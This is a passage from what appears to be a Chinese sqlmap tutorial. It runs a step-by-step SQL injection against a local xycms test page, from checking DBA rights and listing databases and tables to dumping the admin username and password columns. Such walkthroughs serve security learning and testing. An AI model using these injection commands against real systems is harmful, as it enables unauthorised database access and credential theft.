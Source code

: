 判断一下是否是数据库管理员

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --is-dba
```

（如果是数据库管理员，则可以跳过查看数据库内容——因为知道数据库名是为了看表，现在就可以直接看所有表名，不过查询内容会较多）

查看一下所有的数据库

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --dbs

--dbs
#查看一下所有的数据库
```

查看当前所用的数据库

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --current-db

--current-db
#查看当前所用的数据库
```

列出当前数据库的表名

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --tables -D xycms

-D xycms
#指定数据库名为xycms
--tables
#列出当前数据库的表名
```

查看表的列名

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --columns -T manage_user -D xycms

-T manage_user
#指定表名manage_user
--columns
#查看表的列名
```

查看字段

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --dump -C m_name,m_pwd -T  manage_user -D xycms

-C m_name,m_pwd
#指定列名m_name和m_pwd
--dump
#查看字段
```
